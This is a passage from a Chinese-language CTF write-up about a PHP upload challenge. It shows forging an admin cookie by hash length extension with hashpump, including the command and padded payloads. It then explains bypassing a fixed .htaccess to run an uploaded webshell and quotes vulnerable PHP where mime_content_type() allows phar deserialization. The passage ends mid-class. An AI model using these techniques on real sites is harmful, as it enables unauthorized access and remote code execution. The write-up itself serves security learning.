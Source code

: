 上传文件时得是admin才能上传文件，验证的方式是通过`$_COOKIE['user']`和`md5($secret.$this->username.$this->password)`进行验证，这两个东西，我们可以通过hash拓展进行伪造

```
hashpump -s "52107b08c0f3342d2153ae1d68e6262c" -d adminadmin -k 8 -a admin123
$_COOKIE['user']:da87617c23790ab325af3e593dbc093c
username:admin
password:admin\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x90\x00\x00\x00\x00\x00\x00\x00admin123

admin%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%90%00%00%00%00%00%00%00admin123
```

然后登录，上传文件时得记得带上$_COOKIE['user']，这样就能上传文件了。



####　第二部分

当我们在访问upload.php时将会生成一个.htaccess文件。由于这个文件里面的内容被服务器写死了，所以我们上传的马无法被正常地解析，所以我们要做的就是给.htaccess做手脚。

```php
<?php
error_reporting(0);
include ("config.php");
$file_name = $_GET['filename'];
$file_path = $_GET['filepath'];
$file_name=urldecode($file_name);
$file_path=urldecode($file_path);
$file = new File($file_name, $file_path);
$res = $file->view_detail();
$mine = $res['mine'];
$store_path = $res['store_path'];
```

跟进view_detail()

```php
    public function view_detail(){
        if      (preg_match('/^(phar|compress|compose.zlib|zip|rar|file|ftp|zlib|data|glob|ssh|expect)/i', $this->filepath))
        {
            die("nonono~");
        }
        $mine = mime_content_type($this->filepath);
        $store_path = $this->open($this->filename, $this->filepath);
        $res['mine'] = $mine;
        $res['store_path'] = $store_path;
        return $res;
    }
```

这里的`mime_content_type()`函数将会触发phar引起的反序列化漏洞。

```php
class File{

    public $checker;

    function __construct($filename, $filepath)
    {
        $this->filepath = $filepath;
        $this->filename = $filename;
    }
    ... ... 
    function __destruct()
    {
```